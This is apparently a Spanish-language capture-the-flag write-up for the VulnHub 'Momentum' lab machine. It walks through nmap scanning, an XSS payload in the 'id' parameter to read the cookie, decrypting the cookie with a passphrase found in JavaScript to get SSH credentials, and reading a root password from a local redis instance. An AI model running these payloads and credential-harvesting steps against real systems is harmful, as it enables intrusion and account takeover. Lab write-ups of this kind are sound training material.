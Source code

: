 ```yaml
---
icon: flag
---
```


# Momentum VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 15:02 EDT
Nmap scan report for 192.168.5.191
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
|_  256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Momentum | Index 
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:C9:EA:BD (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

### Puerto 80

Si leemos el codigo vemos un apartado que pone lo siguiente...

```html
<head>
    <link rel="stylesheet" type="text/css" href="css/style.css">
    <script type="text/javascript" src="js/main.js"></script>
    <title>Momentum | Index </title>
</head>
```

Y si nos metemos en ese `js/main.js` vemos lo siguiente...

```js
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

Vemos que hay un `opus-details.php` y con el parametro `id=`, si vamos a la siguiente `URL`...

```
URL = http://<IP>/opus-details.php
```

Vemos que existe el `.php` ahora probaremos alguna inyeccion de `XSS` en el parametro `id=`...

```
URL = http://<IP>/opus-details.php?id=<h1>XSS</h1>
```

Y veremos que ciertamente se ejecuta a parte de que se muestra en la pagina...

Ya que sabemos que es vulnerable al `XSS` haremos lo siguiente...

Robaremos la `Cookie` y por lo que dice el texto que encontramos en `Java` lo desencriptaremos utilizando la contraseña proporcionada...

```
 URL = http://<IP>/opus-details.php?id=<script>alert(document.cookie)</script>
```

> Cookie

```
U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt
```

> Key

```
SecretPassphraseMomentum
```

URL = https://www.browserling.com/tools/aes-decrypt

Lo desencriptamos en esa `URL`, una vez decodificado veremos lo siguiente...

```
auxerre-alienum##
```

Por lo que parece son las credenciales del usuario `auxerre`...

```
User = auxerre
Password = auxerre-alienum##
```

```shell
ssh auxerre@<IP>
```

Una vez estemos dentro leemos la flag...

> user.txt (flag1)

```
[ Momentum - User Owned ]
---------------------------------------
flag : 84157165c30ad34d18945b647ec7f647
---------------------------------------
```

Si hacemos lo siguiente...

```shell
ss -nltp
```

Vemos los procesos con sus puertos y entre ellos esta este proceso trabajando en el `localhost` y si investigamos que es, es un servidor web utilizando `redis`...

```
LISTEN               0                    128                                    127.0.0.1:6379                                   0.0.0.0:*
```

Por lo que haremos lo siguiente para ver las claves que hay...

```shell
redis-cli
```

Info:

```
127.0.0.1:6379> keys *
1) "rootpass"
127.0.0.1:6379> get rootpass
"m0mentum-al1enum##"
127.0.0.1:6379> exit
```

Veremos que hemos descubierto una contraseña la cual va a ser la contraseña de `root`, por lo que...

```shell
su root
```

Y una vez metamos esa `password` seremos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
[ Momentum - Rooted ]
---------------------------------------
Flag : 658ff660fdac0b079ea78238e5996e40
---------------------------------------
by alienum with <3
```
